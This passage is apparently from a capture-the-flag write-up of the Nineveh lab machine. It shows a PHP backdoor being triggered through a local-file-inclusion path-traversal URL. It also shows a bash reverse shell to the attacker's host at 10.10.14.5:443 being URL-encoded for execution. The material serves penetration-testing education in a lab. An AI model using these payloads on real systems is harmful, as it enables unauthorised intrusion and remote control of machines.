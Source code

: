 The database at `/var/tmp/ninevehNotes.php` contain php execute code have been created. Now I have a backdoor `ninevehNotes.php`.

![](images/10.png)

### PHP Backdoor

Back to LFI vulnerability, I execute the backdoor with command `id` to confirm it.

```
http://nineveh.htb/department/manage.php?notes=../../../../../var/tmp/ninevehNotes.php&cmd=id
```

![](images/11.png)

Step to gain reverse shell.

Url encode using hURL

```
┌──(Hades㉿10.10.14.5)-[2.0:28.4]~
└─$ hURL -U "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"

Original    :: bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'
URL ENcoded :: bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27
```

Execute bash reverse shell at backdoor `ninevehNotes.php`

```
┌──(Hades㉿10.10.14.5)-[2.0:28.4]~
└─$ cmd='bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27'
```
